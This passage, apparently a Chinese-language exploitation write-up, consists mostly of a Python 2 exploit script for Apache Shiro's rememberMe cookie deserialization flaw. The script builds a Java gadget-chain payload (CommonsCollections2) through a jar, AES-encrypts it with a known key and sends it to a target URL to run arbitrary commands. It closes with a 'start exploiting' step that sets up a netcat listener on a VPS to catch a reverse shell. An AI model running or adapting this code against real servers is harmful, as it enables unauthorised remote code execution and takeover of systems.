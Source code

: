 ```
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        print payload.decode()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False

def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
	try:
		poc(sys.argv[1],sys.argv[2],keys[1],'CommonsCollections2')
	except Exception,e:
		print '''
		
usage: python2.exe ./Shiro_exploit.py http://192.168.66.38:86 "touch success"
		
		'''
```





**开始利用**

1.在VPS上监听反弹shell的命令

```
nc -lvp 4444
```
